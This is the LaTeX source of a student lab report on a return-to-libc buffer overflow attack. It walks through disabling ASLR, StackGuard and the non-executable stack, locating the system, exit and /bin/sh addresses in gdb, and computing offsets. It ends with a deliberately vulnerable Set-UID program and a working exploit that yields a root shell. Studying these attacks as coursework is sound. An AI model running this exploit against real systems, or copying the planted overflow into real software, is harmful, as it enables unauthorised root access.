%\documentclass[12pt,notitlepage]{article}
\documentclass[a4paper,12pt]{article}
\usepackage[utf8]{inputenc}
\usepackage{graphicx}
\usepackage{verbatim}
\usepackage{amsthm}
\usepackage{amssymb}
\usepackage{pdfpages}
\usepackage{amsmath}
\usepackage{tikzsymbols}
\usetikzlibrary{decorations.pathreplacing}
\usepackage{mathtools}
\DeclarePairedDelimiter\ceil{\lceil}{\rceil}
\DeclarePairedDelimiter\floor{\lfloor}{\rfloor}

\usepackage{hyperref}
%\usepackage[T1]{fontenc}
\usepackage{url}
\usepackage{lipsum}
\usepackage{array}
\usepackage{multirow}
\usepackage{float}
\usepackage{lscape}
\usepackage{colortbl}
\newcolumntype{P}[1]{>{\centering\arraybackslash}p{#1}}
\usepackage[nottoc,numbib]{tocbibind}
\usepackage{fancyhdr}
\usepackage{hhline}
\usepackage[printonlyused]{acronym}
\usepackage{soul}

%\usepackage{txfonts}
\usepackage{lipsum,etoolbox}% http://ctan.org/pkg/{lipsum,etoolbox}
\usepackage{caption}
\usepackage{subcaption}

\usepackage{algorithm}
\usepackage[noend]{algpseudocode}

\makeatletter
\def\BState{\State\hskip-\ALG@thistlm}
\makeatother

\usepackage{minted}

\definecolor{black}{RGB}{0,0,0}

\usepackage{fancyvrb}

\usepackage{geometry}
\geometry{
	a4paper,
	total={170mm,257mm},
	right=3cm,
	left=3.5cm,
	top=3cm,
	bottom=3cm
}

\makeatletter
\DeclareRobustCommand{\rvdots}{%
	\vbox{
		\baselineskip4\p@\lineskiplimit\z@
		\kern-\p@
		\hbox{.}\hbox{.}\hbox{.}
}}
\makeatother

\usepackage{titlesec}
\usepackage{hyperref}
\titleclass{\subsubsubsection}{straight}[\subsection]

\newcounter{subsubsubsection}[subsubsection]
\renewcommand\thesubsubsubsection{\thesubsubsection.\arabic{subsubsubsection}}
\renewcommand\theparagraph{\thesubsubsubsection.\arabic{paragraph}} % optional; useful if paragraphs are to be numbered

\titleformat{\subsubsubsection}
{\normalfont\normalsize\bfseries}{\thesubsubsubsection}{1em}{}
\titlespacing*{\subsubsubsection}
{0pt}{3.25ex plus 1ex minus .2ex}{1.5ex plus .2ex}

\makeatletter
\renewcommand\paragraph{\@startsection{paragraph}{5}{\z@}%
	{3.25ex \@plus1ex \@minus.2ex}%
	{-1em}%
	{\normalfont\normalsize\bfseries}}
\renewcommand\subparagraph{\@startsection{subparagraph}{6}{\parindent}%
	{3.25ex \@plus1ex \@minus .2ex}%
	{-1em}%
	{\normalfont\normalsize\bfseries}}
\def\toclevel@subsubsubsection{4}
\def\toclevel@paragraph{5}
\def\toclevel@paragraph{6}
\def\l@subsubsubsection{\@dottedtocline{4}{7em}{4em}}
\def\l@paragraph{\@dottedtocline{5}{10em}{5em}}
\def\l@subparagraph{\@dottedtocline{6}{14em}{6em}}
\makeatother

\setcounter{secnumdepth}{4}
\setcounter{tocdepth}{4}
\newcommand{\und}{\underline{\hspace{.10in}}}
\begin{document}
	\begin{titlepage}
		\begin{center}
			\vspace*{9em}
			\Huge 
			MH4920\\ Supervised Independent Study I\\
			\vspace*{4em}
			\LARGE
			\textbf{Return to Libc\\}		
			\vspace{4em}
			\textbf{Brandon Goh Wen Heng}\\
			\vspace*{4em}
			Academic Year 2017/18
			\vfill
		\end{center}
	\end{titlepage}
	
	\pagenumbering{roman}
	\tableofcontents
	\newpage
	\pagenumbering{arabic}
	\section{Introduction}
	Return to libc is a type of buffer overflow attack that circumvents an existing protective measure of having a non-executable stack. This attack also does not require the use of the shellcode, instead it makes use of functions already included in standard libraries to exploit the system and obtain root access. This reduces the effort by removing the need of preparing a shellcode but is more difficult to execute due to the additional attention required when working with multiple restrictions.
	\section{Overview}
	The execution of a return to libc attack is complex and the structure of the stack must be first understood before performing the attack. In general, the first function that is called or executed will be located on the top of the stack. Additional functions that are called will be pushed into the stack. The stack can grow as required depending on the number of functions that are called and whether there is contiguous memory available.
	\begin{figure}[!h]
		\centering
		
\begin{tikzpicture}
		\draw[fill=green!30]  (-2,3)  rectangle node {main()} (2,2);
		\draw[fill=blue!20]  (-2,2) rectangle node {sub1()}(2,1);
		\draw[fill=blue!20]  (-2,1) rectangle node {sub2()}(2,0);
		\draw[fill=blue!20]  (-2,0) rectangle node {\LARGE{$\rvdots$}}(2,-1.5);
		\draw[fill=blue!20]  (-2,-1.5) rectangle node {subn()}(2,-2.5);
		\draw(4.2,3) node[text width=3cm,align=left] {High Address}  (4.2,0.25) node[text width=3cm,align=left] {Stack's growing\\ direction}  (4.2,-2.5) node[text width=3cm,align=left] {Low Address};
		\draw[->,line width=0.5mm](2.4,3) -- (2.4,-2.5);
		\end{tikzpicture}
		\caption{Location of main and sub-functions on Stack}
	\end{figure}
\\When a function is called, the \texttt{call} instruction in assembly executes a \texttt{push} to store the current \texttt{EIP} value into the stack and functions as the return address for the sub-function. The second part of the \texttt{call} instruction is to to jump to the address containing the instructions for the sub-function. The first two lines of any function will consist of a \texttt{push} instruction, to contain the previous value of \texttt{EBP} and to move the \texttt{EBP} to the location of \texttt{ESP}. Figure 2 is a graphical representation of the stack and the pointer locations after the pointers have been assigned.
\begin{figure}[H]
	\centering
	
\begin{tikzpicture}
	\draw[fill=green!30]  (-2,4)  rectangle node {Data for main()} (3.6,2.1);
	\draw[fill=blue!20]  (-2,2.1) rectangle node[text width=6cm,align=center] {\small Arguments for sub(), \\ pushed by main()}(3.6,1);
	\draw[fill=blue!20]  (-2,1) rectangle node {Return Address}(3.6,0.3);
	\draw[fill=blue!20]  (-2,0.3) rectangle node {Old EBP}(3.6,-0.4);
	\draw[fill=blue!20]  (-2,-0.4) rectangle node {Data for sub()}(3.6,-2.3);
	\draw[<-,line width=0.3mm](3.65,-0.4) -- (4.4,-0.4) node[black,midway,xshift=1cm] {EBP};
	\draw[<-,line width=0.3mm](3.65,-2.3) -- (4.4,-2.3) node[black,midway,xshift=1cm] {ESP};
	\draw(8,4) node[text width=3cm,align=left] {High Address}  (8,0.85) node[text width=3cm,align=left] {Stack's growing\\ direction}  (8,-2.3) node[text width=3cm,align=left] {Low Address};
	\draw[->,line width=0.5mm](6.2,4) -- (6.2,-2.3);
	\draw [decorate,decoration={brace,amplitude=6pt},xshift=-4pt,yshift=0pt]
	(-2.1,2.1) -- (-2.1,4) node [black,midway,xshift=-1cm] 
	{\footnotesize main()};
	\draw [decorate,decoration={brace,amplitude=6pt,raise=4pt},yshift=0pt]
	(-2.1,-2.3) -- (-2.1,2.1) node [black,midway,xshift=-1cm] {\footnotesize
		sub()};
	\draw (-2.25,2.1) -- (-2,2.1);
	\end{tikzpicture}
	\caption{Stack Component \& Pointer Locations}
\end{figure}
\noindent The attack is similar to executing a buffer overflow, where the return address is overwritten. In this case, we set the return address to the address of the \texttt{system} function in the \texttt{libc} library. The idea is to execute \texttt{/bin/sh} and obtain a root shell as the program is a \texttt{Set-UID} program. \\\\When the return address (call to \texttt{system}) is executed, the stack is popped to remove the return address and pushed to contain the current position of \texttt{EBP} before the pointer is reassigned to the location of \texttt{ESP}. Allocation of required data required for the sub-function will occur thereafter. At this stage, the interpretation of the stack needs to be redefined for clarity. Figure 3 summarises the steps that have occurred after jumping to the \texttt{system} function and storing of the old \texttt{EBP} has been executed.
\begin{figure}[H]
	\centering
	
\begin{tikzpicture}
	\draw[fill=green!30]  (-2,4)  rectangle node {Data for main()} (3.4,2.1);
	\draw[fill=gray!20]  (-2,2.1) rectangle node[text width=6.2cm,align=center] {\small \st{ Arguments for sub()}\\ Unused data}(3.4,1);
	\draw[fill=yellow!20]  (-2,1) rectangle node {\st{Return Address} Old EBP}(3.4,0.3);
	\draw[<-, line width=0.3mm](3.1,0.65) -- node[black,midway,xshift=1.2cm,yshift=-0mm] {\footnotesize \texttt{system()}} (3.8,0.65);
	\draw[<-,line width=0.3mm](3.45,0.3) -- (4.4,0.3) node[black,midway,xshift=1.6cm] {ESP=EBP};
	\draw[fill=gray!20]  (-2,0.3) rectangle node {\st{Old EBP} Free area}(3.4,-0.4);
	\draw[fill=gray!20]  (-2,-0.4) rectangle node {\st{Data for sub()} Free area}(3.4,-2.3);
	\draw(8.8,4) node[text width=3cm,align=left] {High Address}  (8.8,0.85) node[text width=3cm,align=left] {Stack's growing\\ direction}  (8.8,-2.3) node[text width=3cm,align=left] {Low Address};
	\draw[->,line width=0.5mm](7,4) -- (7,-2.3);
	\draw [decorate,decoration={brace,amplitude=6pt},xshift=-4pt,yshift=0pt]
	(-2.1,2.1) -- (-2.1,4) node [black,midway,xshift=-1cm] {\footnotesize main()};
	\end{tikzpicture}
	\caption{Stack Component \& Pointer Locations}
\end{figure}
It is known that the old \texttt{EBP} value is the value of the previous stack pointer, therefore \texttt{EBP + 4} must contain the return address for the \texttt{system} function. To allow the execution to exit gracefully without an error being thrown to the user, the \texttt{exit} function is executed. This function can also be found in the libc library. We know that arguments for the function is stored above the return address. The \texttt{system} command only takes in one argument, \texttt{const char *command}. Therefore the location of the program to be executed, \texttt{/bin/sh} must be stored in the address \texttt{EBP + 8}. The operations required on the stack for the attack to be successful can be summarised into Figure 4.
\begin{figure}[H]
	\centering
	
\begin{tikzpicture}
	\draw[fill=gray!20]  (-2,4.3)  rectangle node {Irrelevant data (Data for main())} (5.6,2.4);
	\draw[fill=yellow!20]  (-2,2.4) rectangle node[text width=6.2cm,align=center] {Address of \texttt{/bin/sh}}(5.6,1.7);
	\draw (-2.25,1.7) -- (-2,1.7);
	\draw[fill=yellow!20]  (-2,1.7) rectangle node[text width=6.2cm,align=center] {exit()}(5.6,1);
	\draw[fill=yellow!20]  (-2,1) rectangle node {Return Address $\rightarrow$ Address of \texttt{system}}(5.6,0.3);
	\draw[fill=gray!20]  (-2,0.3) rectangle node {Irrelevant data (Copied from buffer)}(5.6,-2.3);
	\draw(8.2,4) node[text width=3cm,align=left] {High Address}  (8,0.85) node[text width=3cm,align=left] {Stack's growing\\ direction}  (8,-2.3) node[text width=3cm,align=left] {Low Address};
	\draw[->,line width=0.5mm](6.2,4.3) -- (6.2,-2.3);
	\draw [decorate,decoration={brace,amplitude=6pt},xshift=-4pt,yshift=0pt]
	(-2.1,1.7) -- (-2.1,4.3) node [black,midway,xshift=-1cm] {\footnotesize main()};
	\draw [decorate,decoration={brace,amplitude=6pt},xshift=-4pt,yshift=0pt]
	(-2.1,-2.3) -- (-2.1,1.7) node [black,midway,xshift=-1cm] {\footnotesize sub()};
	\draw [decorate,decoration={brace,amplitude=6pt},xshift=-4pt,yshift=0pt]
	(-2.4,0.3) -- (-2.4,2.4) node [black,midway,xshift=-1cm] {\footnotesize system()};
	\draw (-2.55,2.4) -- (-2.35,2.4);\draw[densely dotted] (-2.35,2.4) -- (-2,2.4);
	\draw (-2.55,0.3) -- (-2.35,0.3);\draw[densely dotted] (-2.35,0.3) -- (-2,0.3);
	\end{tikzpicture}
	\caption{Stack Component after \texttt{system} Call}
\end{figure}
\newpage
\section{Vulnerability Exploit}
\subsection{VM Preparation}
\vspace{1em}
\begin{enumerate}
	\item \textbf{Address Space Layout Randomization (ASLR)} \begin{par}ASLR is a protection feature that randomizes the starting address location of the heap and stack. This ensures that the execution address is not deterministic and easily exploited by the hacker. For this lab, we switch this protection off to easily simulate an attack. The following code disables the feature:
		\begin{verbatim}
		$ su
		# sysctl -w kernel.randomize_va_space=0
		\end{verbatim}
	\end{par}
	\item \textbf{StackGuard Protection}\begin{par}The GCC compiler includes a protection mechanism called \textit{StackGuard} to detect and prevent buffer overflows. This mechanism checks if the information on the stack such as the return address have been overwritten and prevent the execution of instructions thereafter. This protection is temporarily disabled by declaring the following switch \texttt{-fno-stack-protector} when compiling with GCC.\begin{verbatim}
		$ gcc -fno-stack-protector someprog.c\end{verbatim}
	\end{par}
	\item \textbf{Non-Executable Stack}\begin{par}Newer operating systems have support for \textit{No-eXecute}, or \textit{NX} for short. Regions that are marked are non-executable will not be processed by the processor. This is a feature that is built into modern CPUs and toggled in the motherboard settings, known as \textit{eXecute Disable (XD)} on Intel or \textit{Enhanced Virus Protection} on AMD systems. The default setting for the stack in our VM is  \textbf{non-executable}. Attempting to overwrite the stack will throw an exception to the user. \\\\In this lab, we explicitly set the stack to be executable using the following code when compiling with GCC:
		\begin{verbatim}
		$ gcc -z execstack -o someprog someprog.c
		\end{verbatim}
	\end{par}
\item \textbf{Vulnerable Program}\begin{par}
The lab provides two \texttt{C} code, one of which is a \texttt{Set-UID} program and the other is to write the file that is needed to implement the buffer. The code has been attached to the \hyperref[App]{Appendix}.\end{par}
\end{enumerate}
\subsection{Creating the \texttt{BADFILE}}
To create the file to exploit the buffer overflow vulnerability, we need to refer to Figure 4 to understand which section should be overwritten. We are given the following code to fill up.
\begin{minted}{C}
*(long *) &buf[X] = some address; // "/bin/sh"
*(long *) &buf[Y] = some address; // "system()"
*(long *) &buf[Z] = some address; // "exit()"
\end{minted}
To find the address of \texttt{system} and \texttt{exit}, we first compile both files and run. As we have set address randomisation to the off state, the address will not change with every execution.
 
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{norandadd}
	\caption{No Address Randomisation}
	\label{fig:norandadd}
\end{figure}
\noindent The address is obtained within \texttt{gdb} by using the command \texttt{p <function>}, where the function name is \texttt{system} and \texttt{exit}.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{sysexitadd}
	\caption{\texttt{system} and \texttt{exit} Address}
	\label{fig:sysexitadd}
\end{figure}
For \texttt{/bin/sh}, there are two methods to obtain the address.
\begin{enumerate}
	\item The first would be to create an environment variable. In this instance, we use \texttt{MYSHELL} as the name of the environment variable. It is exported into the environment using the following command.
	\begin{verbatim}
	$ export MYSHELL = /bin/sh
	\end{verbatim}
	To obtain the address where this variable is located, there are an additional two methods that can be used.
	\begin{enumerate}
		\item The following \texttt{C} code can be written to print the address containing the variable.
		\begin{minted}{C}
void main(){
    char* shell = getenv("MYSHELL");
    if(shell)
        printf("%x\n", (unsigned int) shell);
}
		\end{minted}
		
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{envaddr}
	\caption{Using \texttt{C}}
	\label{fig:envaddr}
\end{figure}
\item \texttt{GDB} can be used to find the address of the environment variable, which can be executed by the following line of code.
\begin{verbatim}
x/100s *((char **) environ)
\end{verbatim}
The output will be the strings located in the environment with the respective addresses.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{environadd}
	\caption{Using \texttt{gdb}}
	\label{fig:environadd}
\end{figure}


	\end{enumerate}
However, it is important to take note that the exact address cannot be used as the string ``MYSHELL'' will be in that location. The offset is calculated based on how many ASCII characters are required from the back. In this instance the offset obtained is $+6$. The address to be used will therefore be \texttt{0xBFFFFE8A}.\\\\
Using an incorrect offset will not allow the argument to be passed into \texttt{system} properly and will display an error.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{envaddoff}
	\caption{Incorrect Offset}
	\label{fig:envaddoff}
\end{figure}
\item It is also known that there exists an instance of the \texttt{/bin/sh} string in the \texttt{C} library. It can be used instead and is much simpler to obtain the address. To do so, we need to enter \texttt{gdb} and run the program first. \\\\The \texttt{find} command can be used and the following line of code searches the memory to obtain the address of \texttt{/bin/sh}.
\begin{verbatim}
find &system, +99999999, "/bin/sh"
\end{verbatim}
The address obtained can be directly inserted into our exploit code without any modification.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{binshloc}
	\caption{Exact Address Obtained}
	\label{fig:binshloc}
\end{figure}

\end{enumerate}
The values of X, Y and Z now need to be determined to ensure that the correct components are overwritten by the buffer overflow. The program is run in \texttt{gdb} again and the buffer is printed out, which is shown in Figure 11.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{buffnooflow}
	\caption{Buffer Output}
	\label{fig:buffnooflow}
\end{figure}
\noindent Analysis of the buffer indicates that address \texttt{0xbffff360} contains the pointer to the file. With reference to the buffer overflow lab stack layout, address \texttt{0xbffff35b} must contain the return address for the function. Therefore the offset required to overwrite the return address is 24, which is where the location of \texttt{system} will be. The address of \texttt{/bin/sh} and \texttt{exit} will overwrite the regions with the offset of 32 and 28 respectively. i.e. X $\rightarrow$ 32, Y $\rightarrow$ 24, Z $\rightarrow$ 28.\\\\Executing the program after compiling and re-creating the \texttt{BADFILE} now allows us to obtain root shell.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{rtlcroot}
	\caption{Root Access}
	\label{fig:rtlcroot}
\end{figure}
\subsection{Change of Program Name}
In this subsection, we look into the effects of renaming the program with a different length. To do so, we execute the following line of command.
\begin{verbatim}
$ mv retlib returntolibc
\end{verbatim}
Execution of the command yields the following results:
\begin{enumerate}
	\item If the address of the \texttt{/bin/sh} is based on the environment variable, then the execution will fail as the string has been shifted from the previous address. As the name of the program being executed being reflected in the environment variables is stored in a higher memory address, all of the environment variables in the stack with a lower memory address will be affected by this shift. The differences in the address can be seen from Figure 8 and Figure 13.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{addshift}
	\caption{Address Shifted}
	\label{fig:addshift}
\end{figure}
	\item If the address of the \texttt{/bin/sh} is based on the \texttt{C} library, then there will be no impact as the address remains the same.
\end{enumerate}
\subsection{Address Randomisation}
This subsection will focus on the protection mechanism involving address randomisation. To turn on this feature, we use the following lines in Terminal.
\begin{verbatim}
$ su
# sysctl -w kernel.randomize_va_space=2
# exit
\end{verbatim}
When the program is run without any modifications, we get the error ``Segmentation fault (core dumped)''. When \texttt{gdb} is used to debug the program, we note that the address of \texttt{/bin/sh} in the environment and the \texttt{C} library has changed. The same can be mentioned for the \texttt{system} and \texttt{exit} functions.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{randadd}
	\caption{Random Address}
	\label{fig:randadd}
\end{figure}
\noindent It is difficult to guess or predict a single address during the next instance of program execution, let alone three separate addresses. Although if we were to strictly use the \texttt{/bin/sh} from the \texttt{C} library, we can calculate the distance between the functions. To be specific, the distance between \texttt{system} and \texttt{/bin/sh} is $+1186696_{10}$ and the distance between \texttt{system} and \texttt{exit} is $-50304_{10}$. To guess the address, there is a probability of $\frac{1}{2^{29}}$ as the current VM environment has been set to use 512MB of RAM. However, the probability of obtaining a correct guess is still considered to be negligible.
\subsection{StackGuard}
Similar to the buffer overflow lab, the StackGuard feature introduces a canary value which checks whether the return address has been modified. As such, the program will terminate with an error ``stack smashing detected''.
\newpage
\section{Appendix}
\label{App}
\subsection{Return to Libc: \texttt{retlib.c}}
\begin{minted}{C}
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int bof (FILE *badfile)
{
	char buffer[12];
	/* The following statement has a buffer overflow problem */
	fread(buffer, sizeof(char), 40, badfile);
	
	return 1;
}

int main(int argc, char **argv)
{
	FILE *badfile;
	badfile = fopen("./badfile", "r");
	bof(badfile);
	
	printf("Returned Properly\n");
	
	fclose(badfile);
	return 1;
}
\end{minted}
\newpage
\subsection{Buffer Write Operation: \texttt{exploit.c}}
\begin{minted}{C}
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
    char buf[40];
    FILE *badfile;

    badfile = fopen("./badfile","w");

    /* Need to determine the addresses */

    *(long *) &buf[32] = 0xb7f80fb8;
    *(long *) &buf[24] = 0xb7e5f430;
    *(long *) &buf[28] = 0xb7e52fb0;

    fwrite(buf, sizeof(buf), 1, badfile);
    fclose(badfile);
}

\end{minted}
\end{document}